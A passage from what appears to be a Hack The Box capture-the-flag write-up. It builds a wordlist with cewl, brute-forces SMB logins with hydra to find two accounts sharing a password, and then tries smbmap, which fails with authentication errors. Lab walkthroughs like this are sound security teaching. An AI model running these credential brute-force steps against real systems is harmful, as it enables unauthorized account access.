 #### Build Wordlist

I'll create a wordlist from the webpage using `cewl`. The
`--with-numbers` flag is a good one to use, especially here:



    root@kali# cewl http://fuse.fabricorp.local/papercut/logs.md/index.htm --with-numbers > wordlist



Because I didn't specify a `--depth`, it will go two links away from the
root page, which should be enough to get everything I want.

#### Brute

Now I'll check it against the server. Normally I would use
`crackmapexec`. When I originally solved, I was traveling and my laptop
had an old VM on which `crackmapexec` was breaking, and rather than
spend time fixing it, I decided I'd rebuild later. In the mean time, I
used `hydra`, and it found two matches:



    root@kali# hydra -L users -P wordlist 10.10.10.193 smb
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-15 10:22:33
    [INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
    [DATA] max 1 task per 1 server, overall 1 task, 765 login tries (l:5/p:153), ~765 tries per task
    [DATA] attacking smb://10.10.10.193:445/
    [445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
    [445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
    [STATUS] 738.00 tries/min, 738 tries in 00:01h, 27 to do in 00:01h, 1 active
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-15 10:23:36



It's a bit weird that it found success for two different users with the
same password. My guess is that that is to help with gameplay,
especially on free HTB servers in the steps that come next.

### Login Failures

Now I try to check for shares with `smbmap`, but it fails:



    root@kali# smbmap -u tlavel -p Fabricorp01 -H 10.10.10.193
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.193
    [!] Authentication error on 10.10.10.193
    root@kali# smbmap -u bhult -p Fabricorp01 -H 10.10.10.193
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.193
    [!] Authentication error on 10.10.10.193
